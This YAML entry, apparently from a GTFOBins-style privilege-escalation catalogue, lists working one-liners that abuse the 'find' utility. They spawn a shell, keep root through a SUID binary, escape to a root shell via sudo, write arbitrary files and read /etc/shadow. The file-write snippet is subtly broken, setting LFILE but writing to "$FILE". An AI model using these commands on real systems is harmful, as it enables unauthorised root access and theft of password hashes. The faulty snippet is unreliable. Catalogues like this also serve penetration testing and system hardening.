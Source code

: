 ```yaml
---
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
  file-write:
    - description: DATA is a format string, it supports some escape sequences.
      code: |
        LFILE=file_to_write
        find / -fprintf "$FILE" DATA -quit
  file-read:
    - code: find /etc -name shadow -exec cat {} \;
---
```

